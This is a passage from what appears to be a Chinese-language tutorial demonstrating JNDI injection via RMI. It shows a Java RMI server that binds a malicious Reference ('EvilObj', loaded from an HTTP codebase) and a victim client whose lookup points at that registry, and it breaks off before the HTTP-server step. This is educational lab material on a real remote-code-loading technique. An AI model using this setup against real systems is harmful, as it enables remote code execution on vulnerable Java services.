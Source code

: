 ```
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```



可以看到这里利用的是static代码块执行命令

- 创建rmi服务端，绑定恶意的Reference到rmi注册表

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
        String url = "http://127.0.0.1:6666/";
        System.out.println("Create RMI registry on port 1099");
        Reference reference = new Reference("EvilObj", "EvilObj", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("evil", referenceWrapper);
    }

}
```

- 创建一个客户端（受害者）

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client {
    public static void main(String[] args) throws NamingException {
        Context context = new InitialContext();
        context.lookup("rmi://localhost:1099/evil");
    }
}
```

可以看到这里的lookup方法的参数是指向我设定的恶意rmi地址的。


然后先编译该项目，生成class文件，然后在class文件目录下用python启动一个简单的HTTP Server:
